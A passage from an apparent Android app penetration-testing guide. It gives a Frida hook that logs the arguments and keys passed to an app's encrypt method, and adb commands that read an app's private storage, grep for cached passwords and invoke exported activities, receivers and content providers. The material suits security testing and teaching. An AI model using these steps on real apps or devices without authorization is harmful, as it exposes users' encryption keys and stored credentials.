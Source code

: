 **Dump Method Arguments**
```javascript
// dump_args.js
Java.perform(function() {
    var targetClass = Java.use('com.example.app.CryptoClass');
    
    targetClass.encrypt.overload('java.lang.String', 'java.lang.String').implementation = function(data, key) {
        console.log('[+] encrypt() called');
        console.log('[+] Data: ' + data);
        console.log('[+] Key: ' + key);
        
        // Call original method
        var result = this.encrypt(data, key);
        console.log('[+] Result: ' + result);
        
        return result;
    };
});
```

#### Android Attack Scenarios

**1. Insecure Data Storage**
```bash
# Access app's data directory
adb shell
cd /data/data/com.example.app/

# Check SharedPreferences
cat shared_prefs/*.xml

# Check databases
cd databases/
sqlite3 database.db
.tables
.dump

# Check for cached credentials
grep -r "password" .
```

**2. Exported Components Exploitation**
```bash
# List exported components
adb shell dumpsys package com.example.app | grep "android:exported"

# Launch exported activity
adb shell am start -n com.example.app/.SecretActivity

# Send intent to exported receiver
adb shell am broadcast -a com.example.app.SECRET_ACTION

# Access exported content provider
adb shell content query --uri content://com.example.app.provider/secrets
```
